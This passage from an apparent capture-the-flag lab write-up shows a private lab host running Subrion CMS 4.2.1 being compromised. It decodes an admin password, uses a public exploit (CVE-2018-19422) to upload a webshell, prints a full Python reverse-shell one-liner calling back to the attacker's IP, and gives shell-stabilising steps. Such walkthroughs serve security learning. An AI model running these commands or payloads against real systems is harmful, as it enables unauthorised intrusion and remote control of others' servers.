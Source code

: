 Copying what looks like the an encoded or hashed password. Using hashid on the strintg we get a "[+] Unknown hash" message. Reading the "cooked with magical formula" note leads me to believe it is a clue to use the [Cyberchef](https://gchq.github.io/CyberChef/) and use the "Magic" recipe.
This leads it to string being decoded as "Scam2021".

Great we have a user name and password for the subrion website. According to the comments though it does not work and they need to fix it. But it appears we can fix it if we use the panel. Going to the website http://10.10.21.67/subrion yields nothing. But going to http://10.10.21.67/subrion/panel we are preseted with a login page for subrion and the CMS version number is 4.2.1.
![Subrion Login Page](subrion-panel-login.png)
We can use the username of admin and the password Scam2021 to verify that it works and it allows us to login.
Using searchsploit with the terms subrion we can see that our verision has an arbitrary file upload. This could allow use to upload either a web shell or reverse shell file to compromise the target.

Luckily the python script from searchsploit will do this for us and give us a semi interactive shell.
```shell
searchsploit -m 49876

python3 49876.py --url http://10.10.21.67/subrion/panel/ --user admin --passw Scam2021

[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://10.10.21.67/subrion/panel/
[+] Success!
[+] Got CSRF token: TLO7LXgr4Xg5tBSDE3pr4eqUhOjJRwefJMY5bq1A
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: dprdjcjrqkgelqz

[+] Trying to Upload Webshell..
http://10.10.21.67/subrion/uploads/
[+] Upload Success... Webshell path: http://10.10.21.67/subrion/panel/uploads/dprdjcjrqkgelqz.phar 

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ ip address
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:91:99:d6:e7:63 brd ff:ff:ff:ff:ff:ff
    inet 10.10.21.67/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::91:99ff:fed6:e763/64 scope link 
       valid_lft forever preferred_lft forever
```
We now have a semi interactive shell, but we can't change directories, we don't have tab autocomplete, etc. Let see if we can get a better shell. We start a netcat listener on port 443 and using a Firefox addon called HackTools we can enter our IP address and port we can choose a suitable reverse shell payload. Using the Bash reverse shell did not work for me so I decided to use the Python one.
```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.1.196",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
To stabalize the shell and give us the tab autocomplete, the use of the arrow keys, etc. we following the guide at [Ropnop Blog's](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) using the stty method in the tl;dr section.
```shell
^Z

stty raw -echo; fg;
```
